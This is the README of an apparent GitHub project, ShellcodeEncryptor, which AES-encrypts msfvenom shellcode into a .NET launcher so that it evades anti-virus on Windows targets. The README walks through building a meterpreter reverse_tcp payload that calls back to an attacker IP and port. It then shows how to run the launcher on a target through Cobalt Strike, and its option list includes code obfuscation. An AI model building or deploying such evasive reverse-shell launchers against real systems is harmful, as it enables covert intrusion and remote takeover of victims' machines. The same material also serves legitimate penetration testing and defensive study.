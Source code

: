 # ShellcodeEncryptor
A simple shell code encryptor/decryptor/executor to bypass anti virus.

<img src="https://raw.githubusercontent.com/plackyhacker/ShellcodeEncryptor/master/demo.gif" alt="Demo " style="zoom:150%;" />

# Purpose
To generate a .Net binary containing base64 encoded, AES encrypted shellcode that will execute on a Windows target, bypassing anti-virus.

# Instructions

Use the `builder.py` to create the executable (you will need `mono` installed on your Linux box):
```
root@kali:~# ./builder.py -p windows/meterpreter/reverse_tcp --lport 443 --lhost 192.168.1.109 -f msLauncher.exe --method delegate
[+] Generating MSFVENOM payload...
[+] Encrypting the payload, key=lejsIgzIhyTeEOTbxYzPs5nPKAnXW1qc...
[+] Generating launcher.cs file, method=delegate...
[+] Compiling the launcher...
[+] Launcher compiled and written to ./msLauncher.exe
[+] Have a nice day!
```

Take the resulting executable and run it on the target, for example (Cobalt Strike):
```
execute-assembly /root/msLauncher.exe
```

Hopefully you will have a nice meterpreter shell.

# Help

```
usage: builder.py [-h] [-l LPORT] [-i LHOST] [-p PAYLOAD] [-f FILENAME]
                  [-a ARCH] [-b] [-m METHOD] [-o]

optional arguments:
  -h, --help            show this help message and exit
  -l LPORT, --lport LPORT
                        The local port that msfconsole is listening on.
  -i LHOST, --lhost LHOST
                        The local host that msfconsole is listening on.
  -p PAYLOAD, --payload PAYLOAD
                        The payload to generate in msfvenom.
  -f FILENAME, --filename FILENAME
                        The filename of the launcher.
  -a ARCH, --arch ARCH  The target architecture (x64 or x86) for Mono.
  -b, --base64only      Output the base64 encrypted payload only.
  -m METHOD, --method METHOD
                        The method to use: thread/delegate.
  -o, --obfuscate       Obfuscate the csharp code.
  ```

# Notes

https://github.com/plackyhacker/ShellcodeEncryptor/blob/master/launcher.cs is provided as a reference.
Tested with x86 windows/meterpreter/reverse_tcp
